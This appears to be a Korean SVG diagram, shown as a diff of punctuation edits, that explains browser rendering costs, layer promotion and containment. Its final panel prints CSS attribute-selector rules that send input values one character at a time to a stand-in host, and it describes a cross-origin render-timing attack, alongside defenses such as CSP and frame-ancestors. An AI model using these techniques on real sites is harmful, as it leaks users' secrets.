

<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 1000 720" font-family="Pretendard, -apple-system, 'Segoe UI', sans-serif">
  <rect x="0" y="0" width="1000" height="720" rx="12" fill="#0a0a14" stroke="#2a2a3e" />
  <text x="500" y="34" text-anchor="middle" fill="#e8e8f0" font-size="19" font-weight="700">무엇을 바꾸면 어디부터 다시 도는가</text>
  <text x="500" y="56" text-anchor="middle" fill="#8a8aa0" font-size="12">프레임 예산은 60Hz 기준 약 16.7ms. 어느 단계부터 다시 도는지가 그 예산을 지킬 수 있는지를 결정한다.</text>
  <g text-anchor="middle" font-size="10.5">
    <rect x="320" y="80" width="120" height="30" rx="5" fill="#141a22" stroke="#6f9fd8" />
    <text x="380" y="100" fill="#bcd6f0">스타일</text>
    <rect x="450" y="80" width="120" height="30" rx="5" fill="#141a22" stroke="#6f9fd8" />
    <text x="510" y="100" fill="#bcd6f0">레이아웃</text>
    <rect x="580" y="80" width="120" height="30" rx="5" fill="#141a22" stroke="#6f9fd8" />
    <text x="640" y="100" fill="#bcd6f0">페인트</text>
    <rect x="710" y="80" width="120" height="30" rx="5" fill="#12201c" stroke="#34d399" />
    <text x="770" y="100" fill="#a7f3d0">합성</text>
  </g>
  <g font-size="10.5">
    <rect x="40" y="120" width="920" height="34" rx="5" fill="#12121f" stroke="#3a3a52" />
    <text x="58" y="142" fill="#c8c8d8">width · height · font-size · display</text>
    <text x="380" y="142" text-anchor="middle" fill="#db8585" font-weight="600">재실행</text>
    <text x="510" y="142" text-anchor="middle" fill="#db8585" font-weight="600">재실행</text>
    <text x="640" y="142" text-anchor="middle" fill="#db8585" font-weight="600">재실행</text>
    <text x="770" y="142" text-anchor="middle" fill="#db8585" font-weight="600">재실행</text>
    <text x="870" y="142" fill="#8a8aa0">가장 비싸다</text>
    <rect x="40" y="162" width="920" height="34" rx="5" fill="#12121f" stroke="#3a3a52" />
    <text x="58" y="184" fill="#c8c8d8">color · background-color · box-shadow</text>
    <text x="380" y="184" text-anchor="middle" fill="#db8585" font-weight="600">재실행</text>
    <text x="510" y="184" text-anchor="middle" fill="#34d399">건너뜀</text>
    <text x="640" y="184" text-anchor="middle" fill="#db8585" font-weight="600">재실행</text>
    <text x="770" y="184" text-anchor="middle" fill="#db8585" font-weight="600">재실행</text>
    <text x="870" y="184" fill="#8a8aa0">기하는 그대로</text>
    <rect x="40" y="204" width="920" height="34" rx="5" fill="#12201c" stroke="#34d399" />
    <text x="58" y="226" fill="#a7f3d0">transform · opacity (승격된 레이어에서)</text>
    <text x="380" y="226" text-anchor="middle" fill="#34d399">건너뜀</text>
    <text x="510" y="226" text-anchor="middle" fill="#34d399">건너뜀</text>
    <text x="640" y="226" text-anchor="middle" fill="#34d399">건너뜀</text>
    <text x="770" y="226" text-anchor="middle" fill="#db8585" font-weight="600">재실행</text>
    <text x="870" y="226" fill="#a7f3d0">가장 싸다</text>
    <rect x="40" y="246" width="920" height="34" rx="5" fill="#1f1a12" stroke="#e6a572" />
    <text x="58" y="268" fill="#f0cba8">offsetHeight · getBoundingClientRect() 읽기</text>
    <text x="510" y="268" text-anchor="middle" fill="#e6a572" font-weight="600">그 자리에서 즉시 실행</text>
    <text x="800" y="268" fill="#8a8aa0">프레임 끝을 기다리지 않는다</text>
  </g>
  <rect x="40" y="300" width="450" height="170" rx="10" fill="#12121f" stroke="#3a3a52" />
  <text x="60" y="324" fill="#e8e8f0" font-size="12" font-weight="700">레이어 승격은 공짜가 아니다</text>
  <text x="60" y="346" fill="#c8c8d8" font-size="10.5">별도 레이어가 되면 그 요소는 독립적으로 래스터되고,</text>
  <text x="60" y="362" fill="#c8c8d8" font-size="10.5">움직일 때 합성만 다시 하면 된다.</text>
  <text x="60" y="386" fill="#e6a572" font-size="10.5" font-weight="600">대가</text>
  <text x="60" y="404" fill="#8a8aa0" font-size="10.5">· 레이어마다 GPU 메모리를 따로 쓴다</text>
  <text x="60" y="422" fill="#8a8aa0" font-size="10.5">· 레이어가 많아지면 합성 자체가 병목이 된다</text>
  <text x="60" y="440" fill="#8a8aa0" font-size="10.5">· will-change 를 전역으로 뿌리면 메모리가 급증한다</text>
  <text x="60" y="460" fill="#c8c8d8" font-size="10.5">필요한 동안에만 켜고 끝나면 끄는 것이 원칙이다.</text>
  <rect x="510" y="300" width="450" height="170" rx="10" fill="#12121f" stroke="#3a3a52" />
  <text x="530" y="324" fill="#e8e8f0" font-size="12" font-weight="700">무효화 범위를 좁히는 선언</text>
  <text x="530" y="346" fill="#c8c8d8" font-size="10.5">기본적으로 한 요소의 크기 변화는 형제와 조상에게</text>
  <text x="530" y="362" fill="#c8c8d8" font-size="10.5">전파된다. 그래서 리스트 한 항목이 바뀌면 전체가 흔들린다.</text>
-   <text x="530" y="386" fill="#a7f3d0" font-size="10.5" font-weight="600">contain — 이 안의 변화가 밖에 영향을 주지 않는다고 선언</text>
+   <text x="530" y="386" fill="#a7f3d0" font-size="10.5" font-weight="600">contain – 이 안의 변화가 밖에 영향을 주지 않는다고 선언</text>
  <text x="530" y="406" fill="#8a8aa0" font-size="10.5">브라우저는 그 약속을 믿고 재계산 범위를 그 서브트리로 가둔다</text>
-   <text x="530" y="428" fill="#a7f3d0" font-size="10.5" font-weight="600">content-visibility — 화면 밖 콘텐츠의 렌더링을 건너뛴다</text>
+   <text x="530" y="428" fill="#a7f3d0" font-size="10.5" font-weight="600">content-visibility – 화면 밖 콘텐츠의 렌더링을 건너뛴다</text>
  <text x="530" y="448" fill="#8a8aa0" font-size="10.5">긴 목록에서 효과가 크지만, 렌더 비용의 차이가 관측 가능해진다</text>
-   <text x="530" y="464" fill="#8a8aa0" font-size="10.5">— 아래의 정보 채널과 이어지는 지점이다</text>
+   <text x="530" y="464" fill="#8a8aa0" font-size="10.5">– 아래의 정보 채널과 이어지는 지점이다</text>
  <rect x="40" y="486" width="920" height="216" rx="10" fill="#1a1420" stroke="#db8fb4" />
-   <text x="60" y="510" fill="#f0c0d8" font-size="12.5" font-weight="700">렌더링은 정보 채널이다 — 스크립트를 넣지 못해도 값이 새어 나간다</text>
+   <text x="60" y="510" fill="#f0c0d8" font-size="12.5" font-weight="700">렌더링은 정보 채널이다 – 스크립트를 넣지 못해도 값이 새어 나간다</text>
  <rect x="60" y="524" width="430" height="80" rx="7" fill="#1a1012" stroke="#db8585" />
  <text x="78" y="544" fill="#e8b0b0" font-size="11" font-weight="600">CSS 만으로 값을 한 글자씩 빼내는 경로</text>
  <text x="78" y="562" font-family="Menlo, monospace" font-size="10" fill="#c8c8d8">input[value^="a"] { background: url(//x/?a) }</text>
  <text x="78" y="578" font-family="Menlo, monospace" font-size="10" fill="#c8c8d8">input[value^="b"] { background: url(//x/?b) }</text>
  <text x="78" y="596" fill="#8a8aa0" font-size="10">일치하는 규칙만 요청을 보낸다 → 첫 글자 확정 → 다음 글자로</text>
  <rect x="510" y="524" width="430" height="80" rx="7" fill="#1a1012" stroke="#db8585" />
  <text x="528" y="544" fill="#e8b0b0" font-size="11" font-weight="600">렌더 비용의 차이로 상태를 추정하는 경로</text>
  <text x="528" y="562" fill="#c8c8d8" font-size="10">다른 출처 페이지를 프레임에 넣고 그리는 시간을 잰다.</text>
  <text x="528" y="580" fill="#c8c8d8" font-size="10">로그인 여부·검색 결과 유무에 따라 렌더 비용이 다르면</text>
  <text x="528" y="596" fill="#c8c8d8" font-size="10">응답 내용을 읽지 않고도 상태를 구분할 수 있다.</text>
-   <text x="60" y="632" fill="#c8c8d8" font-size="10.5">방어가 어려운 이유 — 이 채널들은 버그가 아니라 기능의 부산물이다. 선택자는 매칭돼야 하고, 렌더링은 내용에 따라 비용이 달라진다.</text>
+   <text x="60" y="632" fill="#c8c8d8" font-size="10.5">방어가 어려운 이유 – 이 채널들은 버그가 아니라 기능의 부산물이다. 선택자는 매칭돼야 하고, 렌더링은 내용에 따라 비용이 달라진다.</text>
  <text x="60" y="654" fill="#8a8aa0" font-size="10.5">그래서 방어는 대개 간접적이다. CSP 로 외부 자원 로딩을 제한하고, 민감한 값을 DOM 속성에 두지 않고,</text>
  <text x="60" y="672" fill="#8a8aa0" font-size="10.5">프레이밍을 거부하고(frame-ancestors), 상태별 응답의 렌더 비용 차이를 줄인다.</text>
  <text x="60" y="692" fill="#f0c0d8" font-size="10.5" font-weight="600">읽기를 막는 것과 반응의 차이를 없애는 것은 다른 작업이다. 후자를 따로 하지 않으면 남는다.</text>
</svg>
